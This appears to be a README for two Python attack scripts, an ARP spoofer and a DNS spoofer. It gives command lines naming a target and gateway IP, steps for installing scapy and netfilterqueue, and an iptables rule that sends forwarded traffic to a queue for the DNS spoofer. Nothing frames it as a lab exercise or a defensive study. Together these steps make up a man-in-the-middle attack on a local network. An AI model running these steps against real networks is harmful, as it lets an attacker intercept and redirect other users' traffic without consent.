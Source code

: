 # Usage ARPSPOOF:
```bash
$python spoofi.py -t 10.0.2.4 -g 10.0.2.1
```
- `t` ***Target***
- `g` ***Gateway***


---------------------------------------------------------------------------------------------------------

# Usage DNSPOOF

* Install scupy
```bash
pip install scapy
```
* Install netfilterqueue
```bash
apt-get install build-essential python-dev libnetfilter-queue-dev
git clone https://github.com/nu11secur1ty/python-netfilterqueue
cd python-netfilterqueue
python setup.py install
```
* Create queue
```bash
iptables -I FORWARD -j NFQUEUE --queue-num 0
```
* Run arp spoofing script
```bash
python spoofi.py -t target_ip -g gateway_ip
```
* Run dns_spoofing script
```bash
python dnspoofi
```
Run script with --help to get help
```bash
python dnspoofi.py --help
```

